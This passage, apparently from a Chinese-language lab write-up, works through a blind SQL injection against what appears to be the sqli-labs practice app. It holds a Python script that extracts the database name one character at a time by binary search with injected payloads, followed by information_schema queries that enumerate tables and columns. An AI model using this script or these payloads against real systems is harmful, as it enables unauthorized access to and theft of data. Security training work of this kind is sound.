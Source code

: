 ```python
    return left

def get_char(payload, position):
    left, right = 0, 128  

    while left <= right:
        mid = (left + right) // 2
        test_payload = f"1' and ascii(substr(({payload}),{position},1)) > {mid} --+"
        send_url = url + f"?id={test_payload}"
        res = requests.get(send_url)

        if "You are in" in res.text:
            left = mid + 1  
        else:
            right = mid - 1  

    return left 

def blind_sqli(payload,length):
    result = ""
    for i in range(1, length + 1):
        ascii_val = get_char(payload, i)
        if ascii_val < 0:
            print(f"Failed to get char at position {i}")
            continue
        char = chr(ascii_val)
        result += char
    return result


payload = "database()"
length = get_length(payload)
print(length)
database_name = blind_sqli(payload,length)
print(f"{database_name}")
```

![image-20250428170325111](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250428170325111.png)

成功能获取到数据库名

```
select group_concat(table_name) from information_schema.tables where table_schema='security'
```

![image-20250428172056806](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250428172056806.png)

后续步骤都差不多了

```
select group_concat(column_name) from information_schema.columns where table_name='users'
```
